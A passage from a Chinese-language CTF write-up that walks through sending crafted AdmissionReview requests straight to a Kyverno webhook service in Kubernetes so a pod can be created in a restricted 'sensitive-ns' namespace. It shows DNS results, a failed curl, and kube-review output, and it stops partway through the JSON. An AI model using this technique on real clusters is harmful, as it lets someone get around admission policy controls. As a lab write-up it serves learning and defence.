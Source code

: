 ```bash
10.100.217.223 -> kyverno-cleanup-controller-metrics.kyverno.svc.cluster.local.
10.100.232.19 -> kyverno-svc.kyverno.svc.cluster.local.
```

大概查一下，似乎`kyverno-svc.kyverno.svc.cluster.local`是Kyverno的主要服务入口点。

hint又给了admission webhook的请求方式，用post请求，设置 `Content-Type: application/json` 并对 `admission.k8s.io` API 组中的 `AdmissionReview` 对象进行序列化。

`AdmissionReview`对象可以用[anderseknert/kube-review: Create Kubernetes AdmissionReview requests from Kubernetes resource manifests](https://github.com/anderseknert/kube-review)来产生，hint中还说要考虑path，直接GPT：

> Kyverno 处理 admission webhook 请求的 HTTP 路径通常是 `/validate` 用于验证（validation）webhooks，和 `/mutate` 用于变更（mutation）webhooks。这意味着 Kyverno 在 Kubernetes 集群中注册了这些路径来接收和处理来自 Kubernetes API 服务器的 webhook 调用。当 Kubernetes API 服务器需要对资源进行验证或变更时，它会向 Kyverno 发送请求到这些路径。

我们的想法是创建一个sensitive-ns namespace的pod，因此应该是`/mutate`了。

但是直接curl会报错：

```bash
curl kyverno-svc.kyverno.svc.cluster.local
upstream connect error or disconnect/reset before headers. reset reason: connection timeout
```

一开始以为是path错了，后来查到了一个issue，原来是https：[[Bug] InternalError, error: Internal error occurred: failed calling webhook "mutate.kyverno.svc-fail" · Issue #7378 · kyverno/kyverno](https://github.com/kyverno/kyverno/issues/7378)

因此准备就绪，开始攻击。

首先创建`AdmissionReview`：

```yaml
cat pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: curl-flag
  namespace: sensitive-ns
spec:
  containers:
  - name: curl-container
    image: curlimages/curl

```



```bash
./kube-review create pod.yaml
{
    "kind": "AdmissionReview",
    "apiVersion": "admission.k8s.io/v1",
    "request": {
        "uid": "4cff4c58-75ba-4c4b-97e8-a972f3fc3ff3",
        "kind": {
            "group": "",
            "version": "v1",
            "kind": "Pod"
        },
        "resource": {
            "group": "",
            "version": "v1",
            "resource": "pods"
        },
        "requestKind": {
            "group": "",
            "version": "v1",
            "kind": "Pod"
```